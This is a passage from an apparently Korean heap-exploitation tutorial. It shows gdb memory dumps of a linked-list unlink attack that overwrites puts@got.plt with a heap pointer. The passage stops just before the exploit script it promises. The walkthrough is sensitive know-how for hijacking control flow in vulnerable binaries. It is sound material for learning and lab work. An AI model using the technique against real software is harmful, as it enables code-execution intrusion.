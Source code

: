 변경이 모두 완료되었으며, 이제 공격을 진행해 보자.

```
gdb-peda$ x/100wx 0x804c018-12
0x804c00c:	0x00000091	0x0804c09c	0x0804c12c	0x00000000
0x804c01c:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c02c:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c03c:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c04c:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c05c:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c06c:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c07c:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c08c:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c09c:	0x00000091	0x0804a000	0x0804c00c	0x41414141
                        ~~~ next    ~~~ prev
0x804c0ac:	0x41414141	0x41414141	0x41414141	0x41414141
0x804c0bc:	0x41414141	0x41414141	0x41414141	0x41414141
0x804c0cc:	0x41414141	0x41414141	0x41414141	0x41414141
0x804c0dc:	0x41414141	0x41414141	0x41414141	0x41414141
0x804c0ec:	0x41414141	0x41414141	0x41414141	0x41414141
0x804c0fc:	0x41414141	0x41414141	0x41414141	0x41414141
0x804c10c:	0x41414141	0x41414141	0x41414141	0x41414141
0x804c11c:	0x41414141	0x41414141	0x41414141	0x41414141
0x804c12c:	0x41414140	0x0804c00c	0x0804c09c	0x00000000

```

우리가 예상했던 것과 동일하게 Node 2가 삭제되면서 Node 1의 next를 자신의 next로 저장하고,
Node 1의 `next->prev`에 Node 2의 prev 값을 쓰려고 할 것이다.

(공격 성공후 `puts@got.plt`)
gdb-peda$ x/4wx 0x0804a000+8
0x804a008 <puts@got.plt>:	`0x0804c09c`	0x08048416	0x08048426	0xb7e23810

(공격 전 정상적인 `puts@got.plt`)
gdb-peda$ x/4wx 0x0804a000+8
0x804a008 <puts@got.plt>:	`0x08048406`	0x08048416	0x08048426	0xb7e23810

정확히 우리가 원하는 곳에 prev값이 저장됨을 확인 할 수 있다.
이를 통해서 exploit을 다음과 같이 작성해 보자.
